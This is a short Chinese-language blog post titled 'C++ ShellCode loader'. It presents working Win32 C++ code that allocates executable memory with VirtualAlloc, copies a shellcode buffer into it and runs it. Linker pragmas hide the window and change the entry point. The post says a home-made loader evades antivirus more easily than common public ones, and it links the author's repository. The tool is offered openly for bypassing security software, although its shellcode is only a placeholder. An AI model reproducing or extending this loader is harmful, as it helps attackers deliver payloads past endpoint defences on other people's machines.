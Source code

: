 ```yaml
---
title: "C++ ShellCode 加载器"
date: 2019-08-05T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['shellcode','c++','bypass']
categories: ['bypass']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


通过 Win32 API 实现从内存中加载 ShellCode.

<!--more-->

之前也用过 Python Go 方式的 ShellCode 执行器, 不过使用 C++ 编译的文件体积会小很多.

```
#include <Windows.h>

#pragma comment(linker,"/subsystem:\"windows\" /entry:\"Run\"")  
#pragma comment(linker, "/INCREMENTAL:NO")   

unsigned char buf[] = "shellcode";


int Run()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, buf, sizeof(buf));
	((void(*)())Memory)();
	return 0;
}
```

两行预编译代码用来隐藏窗口和自定义入口点, 实测把 main 改掉以后体积缩小了一大半.

Windows 10 1903 下使用 Visual Studio 2019 编译后大小为 4kb.

至于 ShellCode 加载器, 已经给出了上面的代码, 拓展一下写出一个简单的 loader 也并不困难, 无非就是本地读取和远程读取两种方式. 而且使用自己写的工具而不是网上被大量使用的 shellcode launcher, 会更容易地绕过杀软.

[cpploader](https://github.com/X1r0z/cpploader)
